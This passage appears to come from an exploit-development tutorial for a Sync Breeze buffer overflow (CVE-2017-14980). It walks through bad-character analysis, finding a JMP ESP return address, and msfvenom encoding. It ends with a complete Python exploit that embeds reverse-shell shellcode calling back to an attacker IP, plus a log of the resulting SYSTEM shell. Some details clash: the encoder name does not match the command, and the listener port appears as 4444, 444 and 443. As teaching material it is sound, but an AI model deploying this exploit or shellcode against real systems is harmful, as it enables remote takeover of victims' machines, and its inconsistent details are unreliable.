

Bytes `0x01` through `0x09` appear correctly, but `0x0A` (line feed) is missing—it terminates HTTP fields like a carriage return.
After removing `0x0A` and retesting:

The buffer now truncates at `0x0C`, confirming `0x0D` is also bad.



Through iterative testing, we identify all bad characters for this exploit:
`0x00`, `0x0A`, `0x0D`, `0x25`, `0x26`, `0x2B`, `0x3D`
These must be excluded from our shellcode and return address.

### Redirecting Execution Flow

We now control EIP, have plenty of space for shellcode accessible through ESP, and know which characters are safe. Our next task is to redirect execution flow to the shellcode located at the memory address ESP points to at crash time.

The intuitive approach might be replacing the B's that overwrite EIP with the address in ESP at crash time. However, **ESP's value changes between crashes**. Stack addresses change often, especially in threaded applications like Sync Breeze, because each thread has a reserved stack region allocated by the operating system.

Hard-coding a specific stack address would not be reliable for reaching our buffer.

### Finding a Return Address

We can still store shellcode at the address pointed to by ESP, but we need a consistent way to execute that code. One solution is leveraging a **JMP ESP** instruction, which jumps to the address pointed by ESP when executed.

If we find a reliable static address containing this instruction, we can redirect EIP to it. At crash time, the JMP ESP instruction executes, and this "indirect jump" directs execution flow into our shellcode.

#### Selection Criteria

Many Windows support libraries contain this commonly-used instruction, but we need a reference meeting two criteria:

1. **Static address** - The library must not be compiled with ASLR support
2. **No bad characters** - The instruction's address cannot contain bad characters that would break the exploit

#### Checking Module Protections

To determine a module's protections, we check the **DllCharacteristics** member of the IMAGE_OPTIONAL_HEADER structure, which is part of IMAGE_NT_HEADERS. This is found in the PE header of the target module.

The Portable Executable (PE) format starts with the MS DOS header, which contains an offset to the PE header start at offset 0x3C.

Let's find the protections of syncbrs.exe using this information.

We'll start by getting the module's base address in WinDbg using the **List Loaded Module** command (lm), searching for pattern "syncbrs". Then we use the dt command with the base address to dump the IMAGE_DOS_HEADER:



#### Verifying Module Protections

When we open the syncbrs.exe properties window, the General tab shows the **Mitigation Policies** field set to "None". Clicking Details confirms no mitigations are in place, validating our debugger findings.

The Module tab displays all DLLs loaded in process memory. Double-clicking any module opens its properties window, where we can inspect the DllCharacteristics field.



#### Selecting a Suitable Module

Searching through all modules, we discover **LIBSPP.DLL** suits our needs—it lacks ASLR protection and its address range contains no bad characters.





Now we need to find a naturally-occurring JMP ESP instruction within this module.

#### Finding the JMP ESP Opcode

To find the opcode equivalent of JMP ESP, we use the Metasploit NASM Shell:

```bash
kali@kali:~$ msf-nasm_shell
nasm > jmp esp
00000000 FFE4 jmp esp
```

The JMP ESP instruction translates to opcodes `0xFF` `0xE4`.
Searching for `JMP ESP`
We can search for this instruction using WinDbg's search command. We specify bytes format `(-b)`, the memory range of `LIBSPP.DLL` (gathered using `lm`), and the opcode sequence `0xff 0xe4`.
The search reveals one address containing `JMP ESP: 0x10090c83`, which fortunately contains no bad characters.
We verify this address points to a `JMP ESP` instruction using WinDbg's unassemble `(u)` command.



Updating the Exploit
We update our proof of concept with this return address:

```python
#!/usr/bin/python
import socket
import sys

try:
  server = sys.argv[1]
  port = 80
  size = 800
  
  filler = b"A" * 780
  eip = b"\x83\x0c\x09\x10"
  offset = b"C" * 4
  shellCode = b"D" * (1500 - len(filler) - len(eip) - len(offset))
  inputBuffer = filler + eip + offset + shellCode
  content = b"username=" + inputBuffer + b"&password=A"
  <SNIP>...
```

#### Little Endian Byte Order
The `JMP ESP` address is written in reverse order due to `x86` architecture's little endian format. In this format, the low-order byte is stored at the lowest memory address, and the high-order byte at the highest address. We must store the return address reversed for the CPU to interpret it correctly.

#### Testing the Return Address
Setting a breakpoint at `0x10090c83` using bp and running the exploit shows we reach our `JMP ESP` instruction. Single-stepping with the t command executes the jump, landing us in our shellcode placeholder (the D's).
We've successfully redirected execution flow. Now we just need to generate working shellcode to complete the exploit.




### 3.4.7 Generating Shellcode with Metasploit

Writing custom shellcode will be covered in a later module. For now, the Metasploit Framework provides tools that make generating complex payloads simple.

We'll use **MSFvenom** to build our shellcode. It can generate shellcode payloads and encode them using various encoders. Currently, msfvenom can automatically generate over 500 shellcode payload options:

```bash
kali@kali:~$ msfvenom -l payloads
Framework Payloads (546 total) [--payload <value>]
==================================================
Name                          Description
----                          -----------
aix/ppc/shell_bind_tcp        Listen for a connection and spawn a command shell
aix/ppc/shell_find_port       Spawn a shell on an established connection
aix/ppc/shell_interact        Simply execve /bin/sh (for inetd programs)
aix/ppc/shell_reverse_tcp     Connect back to attacker and spawn a command shell
...
windows/shell_reverse_tcp     Connect back to attacker and spawn a command shell
<SNIP>...
```

### Generating Basic Shellcode
The `msfvenom` command is straightforward. We'll use `-p` to generate a basic payload called `windows/shell_reverse_tcp`, which acts like a `Netcat` reverse shell. 
This payload requires an `LHOST` parameter defining the destination `IP` address. An `LPORT` parameter specifies the connect-back port. 
We use the format flag `-f` to select `C-formatted` shellcode, making it easy to integrate into our Python script:

```bash
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.3 LPORT=4444 -f c
```

However, checking the generated shellcode reveals bad characters (null bytes).

### Encoding the Shellcode
Since we cannot use generic shellcode, we must encode it to fit our target environment. Encoders replace bad characters with allowed ones using a particular scheme. 
For example, an encoder might transform shellcode into purely alphanumeric payload, eliminating bad characters. To run successfully, encoded shellcode must be decoded at runtime. 
The encoder prepends the final encoded shellcode with a small decoder stub.
We'll use the advanced and popular `shikata_ga_nai` encoder. We specify bad characters to ignore with the `-b` option:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.3 LPORT=4444 -f c -e x86/alpha_mixed -b "\x00\x0a\x0d\x25\x26\x2b\x3d" EXITFUNC=thread --smallest
```

The resulting shellcode is `710` bytes long, contains no bad characters, and will send a reverse shell to our IP address on port `444`.



### Getting a Shell
Getting a reverse shell from Sync Breeze should be as simple as replacing our buffer of D's with the shellcode and launching our exploit. 
However, we have another hurdle to overcome.

### The GetPC Problem
We generated encoded shellcode using `msfvenom`. Because of the encoding, the shellcode is not directly executable and is prepended by a decoder stub. 
This stub's job is to iterate over the encoded shellcode bytes and decode them back to their original executable form.
To do this, the decoder needs to get its address in memory and look a few bytes ahead to locate the encoded shellcode. 
During this process, the code performs assembly instructions commonly referred to as a `GetPC` routine. 
This routine moves the value of the `EIP` register (sometimes called the Program Counter or PC) into another register.
`GetPC` routines used by `alpha_mixed` have an unfortunate side-effect: they write data at and around the top of the stack. This mangles several bytes close to the address pointed at by `ESP`. 
This is problematic because the decoder starts exactly at the address pointed to by `ESP`. The `GetPC` routine execution ends up changing a few bytes of the decoder itself, and potentially the encoded shellcode. 
This causes the decoding process to fail and crashes the target process.

One solution is adjusting `ESP` backwards using assembly instructions such as `DEC ESP` or `SUB ESP, 0xXX` 
before executing the decoder.
Alternatively, we can create a wide "landing pad" for our `JMP ESP`. 
When execution lands anywhere on this pad, it continues to our payload. 
In practice, we simply precede our payload with a series of No Operation `(NOP)` instructions, which have 
an opcode value of `0x90`. These instructions do nothing and simply pass execution to the next instruction. These instructions, also called a NOP sled or NOP slide, let the CPU "slide" through the NOPs until the payload is reached.
Regardless of method, by the time execution reaches the shellcode decoder, the stack pointer is far enough away not to corrupt the shellcode when the GetPC routine overwrites a few bytes on the stack.

### Final Exploit
After adding the `NOP` sled, our final exploit looks like this:

```python
import socket
import sys

try:
    server = sys.argv[1]
    port = 80
    
    # Target input is 1500
    filler = b"A" * 780
    #eip = b"B" * 4
    eip = b"\x83\x0c\x09\x10"
    offset = b"C" * 4
    nops = b"\x90" * 10
    badChars = b"\x00\x0a\x0d\x25\x26\x2b\x3d"
    
    shellCode = bytearray(
        b"\x89\xe3\xda\xcb\xd9\x73\xf4\x5f\x57\x59\x49\x49\x49\x49"
        b"\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43\x37\x51"
        b"\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41\x51\x32"
        b"\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42\x58\x50\x38\x41"
        b"\x42\x75\x4a\x49\x79\x6c\x58\x68\x4d\x52\x67\x70\x75\x50"
        b"\x47\x70\x65\x30\x6e\x69\x59\x75\x35\x61\x59\x50\x43\x54"
        b"\x6e\x6b\x72\x70\x30\x30\x4e\x6b\x66\x32\x44\x4c\x6e\x6b"
        b"\x63\x62\x46\x74\x4c\x4b\x62\x52\x61\x38\x44\x4f\x6e\x57"
        b"\x30\x4a\x45\x76\x45\x61\x49\x6f\x6e\x4c\x65\x6c\x50\x61"
        b"\x33\x4c\x54\x42\x74\x6c\x47\x50\x39\x51\x38\x4f\x64\x4d"
        b"\x45\x51\x69\x57\x4b\x52\x5a\x52\x61\x42\x76\x37\x4e\x6b"
        b"\x30\x52\x54\x50\x4c\x4b\x61\x5a\x35\x6c\x6e\x6b\x30\x4c"
        b"\x44\x51\x51\x68\x58\x63\x47\x38\x63\x31\x6b\x61\x66\x31"
        b"\x6e\x6b\x43\x69\x61\x30\x56\x61\x4a\x73\x4c\x4b\x77\x39"
        b"\x72\x38\x68\x63\x34\x7a\x30\x49\x6c\x4b\x36\x54\x4c\x4b"
        b"\x73\x31\x6a\x76\x55\x61\x59\x6f\x6c\x6c\x6b\x71\x38\x4f"
        b"\x64\x4d\x46\x61\x6f\x37\x67\x48\x4d\x30\x50\x75\x59\x66"
        b"\x37\x73\x61\x6d\x69\x68\x35\x6b\x61\x6d\x34\x64\x32\x55"
        b"\x5a\x44\x72\x78\x4c\x4b\x43\x68\x75\x74\x35\x51\x5a\x73"
        b"\x31\x76\x4c\x4b\x44\x4c\x32\x6b\x4c\x4b\x30\x58\x65\x4c"
        b"\x63\x31\x6a\x73\x4e\x6b\x33\x34\x6e\x6b\x57\x71\x6e\x30"
        b"\x4c\x49\x30\x44\x57\x54\x76\x44\x31\x4b\x43\x6b\x71\x71"
        b"\x70\x59\x51\x4a\x33\x61\x4b\x4f\x39\x70\x33\x6f\x33\x6f"
        b"\x42\x7a\x4e\x6b\x35\x42\x68\x6b\x4e\x6d\x73\x6d\x55\x38"
        b"\x50\x33\x45\x62\x63\x30\x53\x30\x45\x38\x44\x37\x70\x73"
        b"\x34\x72\x71\x4f\x33\x64\x72\x48\x52\x6c\x51\x67\x46\x46"
        b"\x57\x77\x69\x6f\x59\x45\x48\x38\x6a\x30\x65\x51\x73\x30"
        b"\x55\x50\x31\x39\x4b\x74\x73\x64\x30\x50\x72\x48\x44\x69"
        b"\x6b\x30\x52\x4b\x65\x50\x4b\x4f\x79\x45\x62\x70\x46\x30"
        b"\x70\x50\x30\x50\x47\x30\x30\x50\x61\x50\x72\x70\x63\x58"
        b"\x39\x7a\x54\x4f\x39\x4f\x4b\x50\x6b\x4f\x4b\x65\x6f\x67"
        b"\x61\x7a\x66\x65\x70\x68\x6b\x70\x49\x38\x37\x71\x76\x63"
        b"\x73\x58\x74\x42\x47\x70\x74\x51\x33\x6c\x6e\x69\x5a\x46"
        b"\x31\x7a\x56\x70\x32\x76\x31\x47\x61\x78\x6d\x49\x6c\x65"
        b"\x73\x44\x31\x71\x79\x6f\x4b\x65\x6c\x45\x6f\x30\x72\x54"
        b"\x74\x4c\x59\x6f\x30\x4e\x46\x68\x54\x35\x7a\x4c\x43\x58"
        b"\x4c\x30\x6e\x55\x69\x32\x52\x76\x79\x6f\x79\x45\x33\x58"
        b"\x71\x73\x52\x4d\x52\x44\x77\x70\x6b\x39\x6a\x43\x42\x77"
        b"\x72\x77\x33\x67\x65\x61\x39\x66\x50\x6a\x75\x42\x61\x49"
        b"\x36\x36\x69\x72\x4b\x4d\x51\x76\x49\x57\x47\x34\x44\x64"
        b"\x67\x4c\x67\x71\x76\x61\x6e\x6d\x43\x74\x55\x74\x44\x50"
        b"\x48\x46\x53\x30\x52\x64\x66\x34\x70\x50\x70\x56\x61\x46"
        b"\x43\x66\x50\x46\x73\x66\x70\x4e\x72\x76\x51\x46\x72\x73"
        b"\x70\x56\x55\x38\x32\x59\x7a\x6c\x37\x4f\x6e\x66\x79\x6f"
        b"\x58\x55\x6c\x49\x4d\x30\x52\x6e\x70\x56\x63\x76\x59\x6f"
        b"\x66\x50\x33\x58\x35\x58\x6b\x37\x75\x4d\x55\x30\x6b\x4f"
        b"\x79\x45\x4f\x4b\x59\x70\x67\x6d\x54\x6a\x55\x5a\x52\x48"
        b"\x4c\x66\x6e\x75\x6d\x6d\x4d\x4d\x69\x6f\x68\x55\x75\x6c"
        b"\x63\x36\x33\x4c\x66\x6a\x6d\x50\x39\x6b\x6b\x50\x54\x35"
        b"\x45\x55\x4d\x6b\x37\x37\x64\x53\x71\x62\x70\x6f\x72\x4a"
        b"\x35\x50\x50\x53\x59\x6f\x6e\x35\x41\x41"
    )
    
    shellCode += b"D" * (1500 - len(filler) - len(eip) - len(offset) - len(shellCode)) 
    inputBuffer = filler + eip + offset + nops + shellCode
    content = b"username=" + inputBuffer + b"&password=A"
    
    buffer = b"POST /login HTTP/1.1\r\n"
    buffer += b"Host: " + server.encode() + b"\r\n"
    buffer += b"User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
    buffer += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += b"Accept-Language: en-US,en;q=0.5\r\n"
    buffer += b"Referer: http://10.11.0.22/login\r\n"
    buffer += b"Connection: close\r\n"
    buffer += b"Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += b"Content-Length: "+ str(len(content)).encode() + b"\r\n"
    buffer += b"\r\n"
    buffer += content

    print("Sending evil buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.sendall(buffer)
    s.close()
    print("Done!")

except socket.error:
    print("Could not connect!")
```

### Testing the Exploit
To prepare for the reverse shell payload, we configure a Netcat listener on port `4444` of our attacking machine and execute the exploit script. 
We should quickly receive a `SYSTEM` reverse shell from the victim machine.
We've created a fully working exploit for a buffer overflow vulnerability from scratch.

```bash
kali@kali:~$ sudo nc - l v p 443
[sudo] password for kali:
listening on [any] 443 ...
192.168.1.13: inverse host lookup failed: Host name lookup failure
connect to [192.168.1.3] from (UNKNOWN) [192.168.1.13] 49420
Microsoft Windows [Version 10.0.10240]
(c) 2015 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
whoami
nt authority \system
C:\Windows\system32>
```

We've successfully developed a complete buffer overflow exploit for Sync Breeze from initial crash analysis to achieving remote code execution with `SYSTEM` privileges. 
This process demonstrated the essential steps of exploit development: controlling `EIP` through precise offset calculation, identifying bad characters that could break our payload, locating a reliable `JMP ESP` instruction in `non-ASLR` modules, 
and crafting encoded shellcode that bypasses character restrictions. While this example used a known vulnerability for educational purposes, the methodology applies broadly to discovering and exploiting similar memory corruption vulnerabilities in real-world applications. 
The techniques covered here—from debugger analysis to shellcode encoding—form the foundation of modern exploit development and are critical skills for security researchers and penetration testers.

Special thanks to the security researchers who discovered CVE-2017-14980.
